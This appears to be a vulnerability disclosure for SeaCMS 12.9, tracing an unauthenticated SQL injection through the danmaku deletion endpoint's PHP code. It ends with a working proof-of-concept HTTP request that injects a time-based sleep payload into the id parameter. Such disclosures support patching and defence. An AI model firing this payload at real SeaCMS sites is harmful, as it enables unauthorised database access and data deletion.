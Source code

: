 seacms12.9  **/js/player/dmplayer/dmku/index.php Unauthorized access to sql injection**

When ac=del, type=list

```java
else if ($_GET['ac'] == "del") {
        $id = $_GET['id'] ?: succeedmsg(-1, null);
        $type = $_GET['type'] ?: succeedmsg(-1, null);
        $data = $d->删除弹幕($id) ?: succeedmsg(0, []);
        succeedmsg(23, true);
```



Enter删除弹幕($id)

```java
public function 删除弹幕($id)
    {
        //sql::插入_弹幕($data);
        sql::删除_弹幕数据($id);
    }
```

Enter  sql::删除_弹幕数据($id);

```java
public static function 删除_弹幕数据($id)
    {
        try {
            global $_config;
            $conn = @new mysqli($_config['数据库']['地址'], $_config['数据库']['用户名'], $_config['数据库']['密码'], $_config['数据库']['名称'], $_config['数据库']['端口']);
            $conn->set_charset('utf8');
            if ($_GET['type'] == "list") {
                $sql = "DELETE FROM sea_danmaku_report WHERE cid={$id}";
                $result = "DELETE FROM sea_danmaku_list WHERE cid={$id}";
                $conn->query($sql);
                $conn->query($result);
            } else if ($_GET['type'] == "report") {
                $sql = "DELETE FROM sea_danmaku_report WHERE cid={$id}";
                $conn->query($sql);
            }
        } catch (PDOException $e) {
            showmessage(-1, '数据库错误:' . $e->getMessage());
        }
    }
```

The id can be controlled, and the type can also be controlled, and there is no filtering. When type=list or report, directly put it into the query function for query.

**Vulnerability verification**

**POC**

```java
GET /js/player/dmplayer/dmku/index.php?ac=del&id=(select(1)from(select(sleep(6)))x)&type=list HTTP/1.1
Host: seacms:8181
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://seacms:8181/js/player/dmplayer/dmku/index.php?ac=del&id=(select(1)from(select(sleep(0)))x)&type=list
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=5dl35hp50uj606p52se8kg91a2; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MjY6InBocCB8IHBocD8gfCBwaHRtbCB8IHNodG1sIjtzOjM6ImFsbCI7aTowO3M6MzoiaHRhIjtpOjE7fQ%3D%3D; XDEBUG_SESSION=PHPSTORM
Connection: keep-alive

```

As shown in the figure, you can see that there is indeed a delay of 6 seconds.

![image-20240821015634118](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240821015634118.png)

